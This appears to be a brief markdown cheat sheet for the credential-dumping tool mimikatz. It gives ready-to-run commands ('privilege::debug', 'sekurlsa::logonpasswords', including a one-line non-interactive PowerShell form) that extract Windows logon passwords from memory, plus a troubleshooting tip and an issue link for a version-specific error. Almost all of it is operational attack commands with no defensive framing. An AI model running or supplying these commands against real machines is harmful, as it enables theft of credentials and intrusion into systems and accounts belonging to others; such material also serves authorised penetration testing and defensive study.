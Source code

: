 # mimikatz

## all in one command for non-interactive powershell
```
.\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

## dump passwords
```
privilege::debug
sekurlsa::logonpasswords
```

## troubleshooting `ERROR kuhl_m_sekurlsa_acquireLSA Key import`
```
I tried an earlier version 2.1.1 #17763 and ran sekurlsa::logonpasswords just fine.
```
https://github.com/gentilkiwi/mimikatz/issues/248
